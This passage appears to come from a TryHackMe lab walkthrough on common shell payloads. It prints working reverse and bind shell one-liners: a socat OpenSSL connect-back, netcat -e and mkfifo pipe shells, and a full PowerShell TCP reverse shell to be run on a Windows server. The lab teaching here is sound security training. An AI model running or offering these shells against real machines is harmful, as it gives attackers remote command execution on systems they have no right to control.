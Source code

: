 If your IP is 10.10.10.5, what syntax would you use to connect back to this listener? 
`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

## Task 8 Common Shell Payloads
We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/d9ae3e7b-4aab-49c3-9458-aaccc4821a42)

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/2d82d9c1-00b1-4ca8-9538-605023c9bce7)

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
